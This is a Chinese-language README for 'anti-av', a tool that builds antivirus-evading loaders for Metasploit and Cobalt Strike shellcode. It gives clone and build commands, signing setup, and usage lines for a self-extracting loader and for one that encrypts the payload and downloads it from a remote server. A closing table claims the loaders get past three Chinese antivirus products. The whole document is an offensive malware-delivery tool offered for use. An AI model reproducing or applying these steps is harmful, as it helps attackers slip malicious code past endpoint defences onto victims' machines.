 # ANTI-AV



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或 linux环境
2、安装交叉编译 mingw64
3、安装签名 osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build
```



## 使用方案

### 1、binary自解压shellcode
```bash
./anti-av -l binary -sc ~/Desktop/payload.bin 
```



### 2、binary远程加载shellcode

> STEP1: 生成加密payload (dist目录下生成payload.e)

```bash
./anti-av  -e ~/Desktop/payload.bin 
```
> STEP2: 上传payload.e到服务器

```
略
```

> STEP3: 制作loader

```bash
./anti-av -sc http://x.x.x.x/payload.e 
```



## 测试

| 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ----------- | -------- |
| √    | √           | √        |

